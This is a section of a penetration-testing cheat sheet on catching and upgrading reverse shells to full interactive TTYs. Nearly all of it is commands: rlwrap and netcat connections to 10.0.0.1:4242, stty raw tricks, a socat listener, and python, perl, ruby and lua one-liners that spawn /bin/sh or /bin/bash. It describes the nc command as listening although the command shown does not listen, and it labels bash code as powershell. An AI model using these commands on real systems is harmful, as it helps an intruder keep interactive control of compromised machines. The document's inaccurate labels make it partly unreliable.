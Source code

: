 ## Spawn TTY Shell/开启交互式shell

In order to catch a shell, you need to listen on the desired port. `rlwrap` will enhance the shell, allowing you to clear the screen with `[CTRL] + [L]`.

```powershell
rlwrap nc 10.0.0.1 4242

rlwrap -r -f . nc 10.0.0.1 4242
-f . will make rlwrap use the current history file as a completion word list.
-r Put all words seen on in- and output on the completion list.
```

Sometimes, you want to access shortcuts, su, nano and autocomplete in a partially tty shell.

:warning: OhMyZSH might break this trick, a simple `sh` is recommended

> The main problem here is that zsh doesn't handle the stty command the same way bash or sh does. [...] stty raw -echo; fg[...] If you try to execute this as two separated commands, as soon as the prompt appear for you to execute the fg command, your -echo command already lost its effect

```powershell
ctrl+z
echo $TERM && tput lines && tput cols

# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

or use `socat` binary to get a fully tty reverse shell

```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

Spawn a TTY shell from an interpreter

```powershell
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```
